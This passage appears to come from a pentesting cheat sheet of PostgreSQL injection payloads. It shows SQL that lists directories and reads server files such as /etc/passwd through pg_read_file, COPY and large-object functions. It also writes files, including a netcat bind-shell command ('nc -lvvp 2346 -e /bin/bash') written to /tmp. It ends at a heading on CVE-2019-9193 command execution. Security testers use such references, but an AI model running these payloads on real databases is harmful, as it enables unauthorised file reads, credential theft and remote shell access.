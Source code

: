 ## PostgreSQL File Read

\`\`\`sql
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
\`\`\`

NOTE: Earlier versions of Postgres did not accept absolute paths in `pg_read_file` or `pg_ls_dir`. Newer versions (as of [this](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) commit) will allow reading any file/filepath for super users or users in the `default_role_read_server_files` group.

\`\`\`sql
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
\`\`\`

\`\`\`sql
SELECT lo_import('/etc/passwd'); -- will create a large object from the file and return the OID
SELECT lo_get(16420); -- use the OID returned from the above
SELECT * from pg_largeobject; -- or just get all the large objects and their data
\`\`\`

## PostgreSQL File Write

\`\`\`sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
\`\`\`

Or as one line:
\`\`\`sql
COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
\`\`\`

\`\`\`sql
SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
\`\`\`

## PostgreSQL Command execution

### CVE-2019–9193

Can be used from [Metasploit](https://github.com/rapid7/metasploit-framework/pull/11598) if you have a direct access to the database, otherwise you need to execute manually the following SQL queries. 
